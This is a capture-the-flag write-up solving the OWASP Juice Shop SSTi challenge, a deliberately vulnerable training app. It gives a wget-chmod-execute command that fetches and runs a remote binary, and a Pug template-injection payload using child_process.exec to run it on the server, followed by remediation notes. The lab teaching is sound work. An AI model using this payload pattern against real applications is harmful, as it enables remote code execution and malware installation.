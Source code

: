 # Juice-Shop Write-up: Server-Side Template Injection (SSTi)

## Challenge Overview
**Title:** SSTi  
**Category:** Server-Side Template Injection (SSTi)  
**Difficulty:** ⭐⭐⭐⭐⭐⭐ (6/6)  

The objective of this challenge is to exploit a Server-Side Template Injection (SSTi) vulnerability to "infect" the server with a specially crafted malware.

## Tools Used
- **Web Browser:** For navigating the Juice Shop application.
- **Developer Tools:** To inspect and manipulate HTML and JavaScript code.
- **Command Line Tools:** For downloading and executing the malware on the server.

## Methodology and Solution

### Step 1: Understanding the Challenge
The challenge hints provide important information:
- **No Reverse Engineering Required:** The focus is on exploiting SSTi without needing to analyze the malware.
- **Finding the Malware:** The malware can be found via a Google search for "juicy malware" or by accessing the Juice Shop's FTP quarantine folder.

### Step 2: Locating the Malware
1. **Google Search:** Searching "juicy malware" on Google leads to the following GitHub repository:
   - [Juicy Malware on GitHub](https://github.com/juice-shop/juicy-malware)
2. **FTP Quarantine Folder:** Alternatively, navigate to `127.0.0.1:3000/#/ftp/quarantine` and download the malware using the NULL byte technique (add %2500.md after the URL, refet to previous challenges if needed).

### Step 3: Preparing the Malware Execution Command

Since Juice Shop is running on my local machine (a Linux system), the goal is to download and execute the malware on this serve. Here is the command that we want the server to execute : 

- **Command to execute:** 
  ```bash
  wget -O malware https://github.com/J12934/juicy-malware/blob/master/juicy_malware_linux_64?raw=true && chmod +x malware && ./malware
  ```

This command downloads the malware, makes it executable, and then runs it.

### Step 4: Identifying the SSTi Vulnerability
After inspecting various parts of the application looking for a page that use template, notably the GitHub page of Juice Shop, the profile page was found to use Pug (formerly Jade) template. Alternatively, you can also try basic template injection in every inputs to find the page that we must exploit.
- **Pug JS:** It's a templating engine that uses variables like `#{variable}` to render dynamic content.

![github home page](../assets/difficulty6/ssti_4.png)

### Step 5: Testing for SSTi
1. **Injecting Simple Expression:** In the username input field, enter `#{1 + 1}` and click "Set Username".
   - **Result:** The username is set to `2`, confirming SSTi vulnerability.

   ![Basic example](../assets/difficulty6/ssti_1.png)

2. **Injecting Dynamix Expression:** Also in the username inpt field, we try more complex payload that involve a command execution : 

![whoiam command test](../assets/difficulty6/ssti_2.png)

### Step 6: Crafting the Payload
To execute the malware, we inject a payload that uses the Node.js `child_process` module to execute system commands:
- **Payload:**
  ```pug
  #{global.process.mainModule.require('child_process').exec('wget -O malware https://github.com/J12934/juicy-malware/blob/master/juicy_malware_linux_amd_64?raw=true && chmod +x malware && ./malware')}
  ```

### Step 7: Executing the Payload
1. **Enter Payload:** Input the payload into the username field and submit.

![payload test](../assets/difficulty6/ssti_3.png)

2. **Verification:** The command should execute, downloading and running the malware on the server.

## Solution Explanation
The challenge was solved by exploiting an SSTi vulnerability in the Pug templating engine. By injecting a payload that executes system commands via the Node.js `child_process` module, we were able to download and run the malware, demonstrating the vulnerability.

## Remediation
- **Input Validation and Sanitization:** Ensure all user inputs are properly validated and sanitized to prevent injection attacks.
- **Template Engine Security:** Use safe templating practices and avoid rendering untrusted input within templates.
- **Limit Server Permissions:** Restrict the server's ability to execute system commands and download files from external sources.


